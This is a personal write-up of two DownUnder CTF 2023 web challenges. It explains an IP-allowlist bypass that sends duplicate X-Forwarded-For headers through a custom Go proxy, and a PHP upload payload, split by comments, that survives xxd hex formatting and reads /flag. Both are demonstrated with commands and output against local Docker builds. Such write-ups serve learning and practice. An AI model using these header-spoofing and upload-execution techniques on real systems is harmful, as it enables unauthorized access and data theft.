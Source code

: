 # DownUnder CTF 2023

i was part of the team "The Great Emu War II" in this competition. shoutouts to my fellow team mates, it was fun :)

official github containing the source code of the challenges:

https://github.com/DownUnderCTF/Challenges_2023_Public

for all the following challenges it was extremely helpful to build the docker images with the source code provided by the organizers. that way one could easily play around and test locally before moving onto the real challenge servers. 

## actually-proxed

my attention was first drawn to the server where the custom proxy apparently proxies to, located in the file `cmd/proxy/secret_server/main.go`:

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

it seems that we can get the flag, when the string var `ip` has the value `"31.33.33.7"`, which will never happen under regular circumstances.
`ip` is either finally set in line `ip := strings.Split(r.RemoteAddr, ":")[0]` as the left part of a string containing ip address and port in the format of `IP-ADRESS:PORT` of the remote host (us), left of the `":"`, or set if the http request header value of `"X-Forwarded-For"` is not null. if that is the case, it is always the last part of an array which results in splitting of a string at the `", "` character. consider the following example: the value of `xff` is `"127.0.0.1, 31.33.33.7, 13.37.13.37"`; this would result in the array `["127.0.0.1","31.33.33.7","13.37.13.37"]` for variable `ips`, and to the value `"13.37.13.37"` for `ip`, since `len(ips)-1 = 2` which results in picking the third value from the array!

ok, now i moved onto the source code of the proxy server, located in the file `cmd/proxy/main.go`, where the following loop looked interesting:

```go
for i, v := range headers {
	if strings.ToLower(v[0]) == "x-forwarded-for" {
		headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
		break
	}
}
```

this loop is stopped as soon as the first http header with the name `"x-forwarded-for"` is found. the value of `clientIP` (the value of our remote ip) is then added, resulting in the value of the header and our ip, separated by a `,`, for example: `127.0.0.1, <OUR-IP>`. that means we can never get the flag, right?

the `break` statement means, that we hypothetically can add more request headers with the name `"x-forwarded-for"`, since the rest of the headers are just added to the request sent to the proxy. the capitalization of any character in the name `"x-forwarded-for"` does not matter, since all letters are converted to lower case anyway.
because of the following loop, the last one of the headers with the same name will always be the last added to the string array:
```go
for _, v := range headers {
		value := headerMap[v[0]]

		if value != nil {
			value = append(value, v[1])
		} else {
			value = []string{v[1]}
		}

		headerMap[v[0]] = value
}
```

you can log it for yourself if you add the following after this loop to the source code:
```go
log.Printf("headerMap has value: %s", headerMap)
```

let's try it: 

add `ENV FLAG=THIS_IS_THE_FLAG` for our tests to the Dockerfile (since this environment variable is not set otherwise in the source and only exists on the challenge docker instance), then run `docker build -t proxy .` where the Dockerfile resides. now run this wonderfull app using e.g. `docker run --rm --name proxy -p 127.0.0.1:8080:8080 -it proxy`

now, we can e.g. use curl to send these requests with two request headers with the same name:

`curl -vvv --header 'x-forwarded-for:127.0.0.1' --header 'x-forwarded-for:31.33.33.7' localhost:8080`

BOOM, you got it:

```
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> x-forwarded-for:127.0.0.1
> x-forwarded-for:31.33.33.7
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 16
< Content-Type: text/plain; charset=utf-8
< Date: Mon, 04 Sep 2023 16:59:22 GMT
<
* Connection #0 to host localhost left intact
THIS_IS_THE_FLAG
```

the logs of the headerMap (if you added it to the source):
```
headerMap has value: map[Accept:[*/*] Host:[localhost:8080] User-Agent:[curl/7.68.0] x-forwarded-for:[127.0.0.1, 172.17.0.1 31.33.33.7]]
```

since `127.0.0.1, 172.17.0.1` is the first element and `31.33.33.7` the last element of the string array which arrives at the secret server, we matched the wanted ip.

## xxd-server

looking at the source code, the file `.htacess` shows us, that php code (inside files with a `.php` extension) should be executed by the apache web server.
to be able to test any solution, we have to add a file called `flag` with some content to the dir where the Dockerfile resides, e.g. with: 

`echo flag > flag`

now build and run the image: 

`docker build -t xxd . && docker run --name xxd --rm -p 127.0.0.1:8080:80 xxd`

you are able to visit the app's frontend now by browsing to http://localhost:8080 where you are greeted by a file upload utility:

![xxd1.png](xxd/images/xxd1.png)

when you select and upload a php file with the following content: 
```php
<?php echo test; ?>
```
and click on "Click here to view"

the code is unfortunately not properly executed, and this error message is displayed: 

![xxd2.png](xxd/images/xxd2.png)

time to take the same file, but with another file ending, e.g. `.txt`:

![xxd3.png](xxd/images/xxd3.png)

if we look at the `xxd()` function in `index.php` and also compare the result output, we see, that the "xxd" utility splits a provided string into 16 characters each line and does its hex conversion on the lefthand side of the output.

after messing around for some time I had the idea to try to use multiline comments (opening with `/*` and closing with `*\`) in php to span the reading of the flag file into multiple lines.

the shortest php snippet I came up with to read a file and print its content was (probably there are better variants?):

```php
<?php $a=file('/flag');print_r($a); ?>
```

ok, this php snippet is longer than 16 characters, so we have to insert the start and end of the comment at the right spot, taking into account that the comment has to begin at the end of each line:

```php
<?php $a=file(/**/'/flag');/*****/print_r(/******/$a); ?>
```

to test our theory, we first put this content into a `.txt` file and upload that to see if we put the comment begin and end at the right spot, since testing with a `.php` file is cumbersome since it tries to execute it:

![xxd4.png](xxd/images/xxd4.png)

as you can see in the image above, in each line the comment starts at the end of the line and closes at the beginning of a line. that way, the hex representations are enclosed in the comment on each line and the php code can properly execute.

upload the same with a `.php` extension and get the flag :)

![xxd5.png](xxd/images/xxd5.png)

## grades_grades_grades

**still to document**